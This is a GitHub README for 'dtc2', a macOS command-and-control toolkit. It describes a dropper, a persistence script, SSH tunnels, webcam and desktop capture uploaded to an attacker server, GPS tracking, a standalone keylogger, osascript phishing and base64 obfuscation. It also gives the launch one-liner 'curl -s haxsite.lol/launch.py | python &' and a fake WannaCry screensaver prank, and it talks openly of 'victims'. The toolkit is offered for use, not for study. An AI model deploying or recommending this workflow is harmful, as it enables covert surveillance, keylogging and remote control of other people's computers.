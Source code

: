 # dtc2
Duct Tape Command and Control!

## WARNING
You will ABSOLUTELY NEED to go into these files and edit them: cups.sh, launch.sh, tunnel.sh, upload.php, snapshot.sh. There are placeholders for where you need to put the domain or ip or host you intend to host some of these things on, and some small tweaks, but nothing that won't take you ~3 minutes.
------
It's worth considering creating a 'generator' shellscript to spit out the 'finished' versions of these files so that you don't have to edit a bunch of files every time you wish to use dtc2. 

## DISCLAIMER
------
Most of this code has been cobbled together, duct tape and bailing wire style (duct tape c2, get it now?), it is horribly vulnerable, and could use a lot of polish and work.


## A quick file list:
------
- **Airport.sh**: this is just a shortcut to the airport binary on OSX
- **geo.m**: you compile this into a binary to get GPS coords from macs
- **tunnel.plist**: this is a plist that runs tunnel.sh, to make sure an ssh tunnel stays alive (not required, but there in case you need it)
- **imagesnap**: a binary that takes webcam pics (yes, it does fire the green light)
- **launch.sh**: this is the initial dropper. It creates dirs, and installs files, scripts binaries, etc, launches first evil things. You'll want to modify this.
- **cups.sh**: This is the main runscript that runs every 30 minutes. Modify this as you see fit.
- **tunnel.sh**: a simple bash loop to keep an ssh tunnel alive.
- **gallery.html**: a terrible, but simple drop-in gallery
- **snapshot.sh**: a terrible shellscript to take pictures of desktop/webcam and upload them to the crappy upload.php catcher
- **getImages.php**: this builds the imagelist for the gallery html
- **style.css**: css for gallery
- **upload.php**: terrible file upload catcher. gets files for you and dumps them in a gallery dir
- **osascript.sh**: an example of osascript, used to locally-phish a user. try it on yourself! :D
- **almondrocks72.py**: A slightly modified version of the almondrocks python proxy, for python 2.7
- **almondrocks3.py**: Same thing, but for python3.
- **printdebug**: The ruby keylogger, torn out of powershell empire so it is standalone. It writes to /tmp/debug.db.
- **printproxy**: the "proxy2" python proxy, for python 2.7, slightly modified so that it listens on more than localhost
- **packer.py**: a thin layer of obfuscation - encodes shellscripts into base64, and runs them through python to hide cleartext. Probably a good idea to run on cups.sh, launch.sh and snapshot.sh once you're done editing them. Remember to chmod things correctly and change the file extention in launch.sh if you use this. It'll create .py files. Just make sure everything lines up.
------

## WORKFLOW:
------
  buy hosting/vm -> setup webserver/letsencrypt/basicauth/etc -> upload files -> create all your payloads -> stand up your listeners -> edit launch.sh and cups.sh -> pack .sh files -> upload -> launch using **curl -s haxsite.lol/launch.py | python &**

You may also want to drop the gallery files into place somewhere so you can upload them. It is **STRONGLY ADVISABLE** to use letsencrypt and apache/nginx basic auth so that your victims can't just stumble across your files, and that you aren't transmitting things in the clear.


## PIRATE
------
In this directory are some files:
- **WebViewScreenSaver.saver**: a screensaver file, borrowed from https://github.com/liquidx/webviewscreensaver - modified so that the default url to open is **file:///tmp/pirate/index.html**
- ** css, js, scss, index.html**: an HTML5, animated version of the archer pirate virus, with no sound
- **wannacry.jpg**: a screenshot of the wannacry ransomware application window
- **launch.sh**: the script that does the thing.

Launch.sh, when run, will drop the piratevirus files and the jpg into /tmp, it will drop the .saver file into ~/Library/Screen Savers/, then it will set the screensaver options in osx to require a password, and set the wait time for the password to 0. It'll then use osascripting to set the wannacry jpg to the desktop on all available desktops, and then select the webviewscreensaver as the main screensaver, and launch it.


As an exercise left to the reader, at this point you can elect to install the plist for an ssh tunnel if you wish, or modify cups.sh to conduct any sort of post-exploit ops you wish. 

One idea is to add another 'curl to bash' line at the end and have it fetch somethinglike 'additonal instructions' as a shellscript to run in the event you want an asycnchronous command to be run, say in the event you lose all of your shells, or they install little snitch or something. 

Please help me make this thing awesome?
